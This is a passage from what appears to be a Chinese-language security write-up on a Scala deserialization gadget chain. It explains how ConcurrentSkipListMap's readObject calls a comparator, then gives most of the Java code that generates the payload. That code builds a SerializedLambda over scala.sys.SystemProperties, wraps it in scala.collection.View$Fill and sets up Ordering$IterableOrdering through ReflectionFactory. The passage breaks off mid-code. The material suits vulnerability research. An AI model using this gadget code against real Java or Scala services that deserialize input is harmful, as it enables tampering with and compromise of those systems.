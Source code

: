 cpr()方法如下：  
```
    /**
     * Compares using comparator or natural ordering if null.
     * Called only by methods that have performed required type checks.
     */
    @SuppressWarnings({"unchecked", "rawtypes"})
    static int cpr(Comparator c, Object x, Object y) {
        return (c != null) ? c.compare(x, y) : ((Comparable)x).compareTo(y);
    }
```  
  
简而言之,当ConcurrentSkipListMap在readObject时,会遍历前后两个key,并使用给定的比较器（Comparator）进行比较操作（compare）。  
  
那只需要在构造payload时创建一个  
ConcurrentSkipListMap对象,在里面存入前后两个Map,而这两个Map的key必须为scala.collection.View$Fill包含scala.Function0()的构造函数的实例,这个实例最终会调用 view.iterable().next(),同时System.setProperty的lambda将会被执行。  
  
给出最终的反序列化Payload生成代码：  
```
private static Object createFuncFromSerializedLambda(SerializedLambda serialized) throws IOException, ClassNotFoundException {
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    oos.writeObject(serialized);
 
    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
    return ois.readObject();
}
 
// For scala version 2.13.x
private static Object createSetSystemPropertyGadgetScala213(String key, String value) throws Exception {
    ReflectionFactory rf = ReflectionFactory.getReflectionFactory();
 
    Tuple2 prop = new scala.Tuple2<>(key, value);
 
    // Should be: 142951686315914362
    long versionUID = ObjectStreamClass.lookup(scala.Tuple2.class).getSerialVersionUID();
    System.out.println("VersionUID: " + versionUID);
 
    SerializedLambda lambdaSetSystemProperty = new SerializedLambda(scala.sys.SystemProperties.class,
                                                                    "scala/Function0", "apply", "()Ljava/lang/Object;",
                                                                    MethodHandleInfo.REF_invokeStatic, "scala.sys.SystemProperties",
                                                                    "$anonfun$addOne$1", "(Lscala/Tuple2;)Ljava/lang/String;",
                                                                    "()Lscala/sys/SystemProperties;", new Object[]{prop});
 
    Class<?> clazz = Class.forName("scala.collection.View$Fill");
    Constructor<?> ctor = clazz.getConstructor(int.class, scala.Function0.class);
    Object view = ctor.newInstance(1, createFuncFromSerializedLambda(lambdaSetSystemProperty));
 
    clazz = Class.forName("scala.math.Ordering$IterableOrdering");
    ctor = rf.newConstructorForSerialization(
        clazz, StubClassConstructor.class.getDeclaredConstructor()
    );
 
    Object iterableOrdering = ctor.newInstance();
 
    // 在readObject中, ConcurrentSkipListMap最终会调用comparator.compare(Object x, Object y);
    // 在ConcurrentSkipList初始化时先填入无用comparator (如果不先添加comparator的话就无法往里面填充数据，同时也为了防止提前触发)
```